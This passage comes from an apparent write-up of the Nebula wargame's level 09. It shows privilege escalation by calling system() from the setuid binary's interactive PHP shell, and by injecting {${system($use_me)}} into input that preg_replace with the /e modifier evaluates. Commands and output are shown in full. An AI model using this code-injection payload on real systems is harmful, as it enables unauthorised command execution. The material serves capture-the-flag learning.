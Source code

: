   --rf <name>      Show information about function <name>.
  --rc <name>      Show information about class <name>.
  --re <name>      Show information about extension <name>.
  --ri <name>      Show configuration for extension <name>.

level09@nebula:/home/flag09$ ./flag09 -a
Interactive shell

php > system('id');
uid=1010(level09) gid=1010(level09) euid=990(flag09) groups=990(flag09),1010(level09)
php > system('getflag');
You have successfully executed getflag on a target account
{% endcodeblock %}

Second way how to solve this challenge is to use PCRE pattern modifiers vulnerability in [PREG_REPLACE_EVAL](https://php.net/manual/en/reference.pcre.pattern.modifiers.php).

{% codeblock lang:console %}
sh-4.2$ cat /tmp/09 
[email bla@blabla.com]

sh-4.2$ ./flag09 /tmp/09 testing
bla AT blabla dot com
{% endcodeblock %}

Because we cannot use quotes, we can inject something with [complex (curly) syntax](https://php.net/manual/en/language.types.string.php#language.types.string.parsing.complex), that could be used 
for strings representation.

{% codeblock %}
sh-4.2$ cat /tmp/09 
[email {${phpinfo()}}]

sh-4.2$ ./flag09 /tmp/09 | head
PHP Notice:  Undefined offset: 2 in /home/flag09/flag09.php on line 22
phpinfo()
PHP Version => 5.3.6-13ubuntu3.2

System => Linux nebula 3.0.0-12-generic #20-Ubuntu SMP Fri Oct 7 14:50:42 UTC 2011 i686
Build Date => Oct 13 2011 23:17:32
Server API => Command Line Interface
Virtual Directory Support => disabled
Configuration File (php.ini) Path => /etc/php5/cli
Loaded Configuration File => /etc/php5/cli/php.ini
Scan this dir for additional .ini files => /etc/php5/cli/conf.d
{% endcodeblock %}

Here the second argument $use_me is invoked:
{% codeblock lang:console %}
sh-4.2$ cat /tmp/09 
[email {${system($use_me)}}]

sh-4.2$ ./flag09 /tmp/09 getflag
You have successfully executed getflag on a target account
PHP Notice:  Undefined variable: You have successfully executed getflag on a target account in /home/flag09/flag09.php(15) : regexp code on line 1
{% endcodeblock %}
